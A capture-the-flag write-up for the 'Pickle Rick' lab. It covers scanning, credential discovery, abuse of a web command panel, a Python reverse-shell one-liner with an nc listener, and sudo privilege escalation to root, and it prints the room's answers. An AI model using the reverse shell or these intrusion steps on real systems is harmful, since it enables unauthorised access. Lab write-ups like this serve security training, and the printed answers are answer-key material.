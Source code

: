 # Pickle Rick

```json
export ip=10.10.58.138
```

```
first step is to always run the nmap scans

```json
nmap -p 0-9999 -oN scans/nmap_high_ports $ip
nmap -sC -sV -oN scans/nmap_normal $ip
```
```
looks like we have apache [80](webserver), ftp [21] and ssh [2222]running
```
```
we can see theres a robots.txt file which contains
"Wubbalubbadubdub" possibly a password?
```
```
always run gobuster after seeing apache is running and open

gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt +x php,sh,txt,cgi,html,js,css,py
```

```
if we view the page source of the webserver we can see rick has left a username for us
"Note to self, remember username!

    Username: R1ckRul3s"
```
```
if we go to /login.php we can try the username and password we possibly found
great it worked and it looks like we can execute commands from here
```
```
if we run ls we get 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

and it seems using cat is disabled
we need to find a way around that
lets try using "nl Sup3rS3cretPickl3Ingred.txt"
"mr. meeseek hair"
perfect
```
# 1. What is the first ingredient Rick needs?
```
answer: mr. meeseek hair 
```
```
lets see what clue.txt is
"Look around the file system for the other ingredient."
it looks like we can only run one liners however using the ; sign we can run multiple commands in one line

if we view the page source it looks like we have a base64 encoded string lets decode it
nothing useful there either
```
```
suppose we should try getting a shell however netcat is disabled
python on the other hand is working so lets get a python reverse shell
```
```json
export RHOST="YOUR_IP";export RPORT=YOUR_PORT;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

nc -lvnp YOUR_PORT (listener)
```
```
we now have a shell lets go look around
if we go to /home/rick and cat "second ingredient"
we find our second ingredient 
"1 jerry tear"
```
# 2. What is the second ingredient Rick needs?
```
answer: 1 jerry tear
```
```
im going to assume the last ingredient is probably in /root or needs root access so lets upgrade our shell so we can privesc to root
```
```json
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z 
stty raw -echo
fg
```
always the first thing to do when your looking to privesc is to run sudo -l
in this cane we can sudo without a password on everything
so lets try running sudo "/bin/bash"
```
```
great we are now root! we can see that with id, whoami etc
so lets look around for the final ingredient
```
```
the final ingredient is /root/3rd.txt which we can use cat or nl to see what it is
1 fleeb juice
```
```
# 3. What is the third ingredient Rick needs?
```
answer: 1 fleeb juice
```

```json
Congratulations on completeing the room !
```

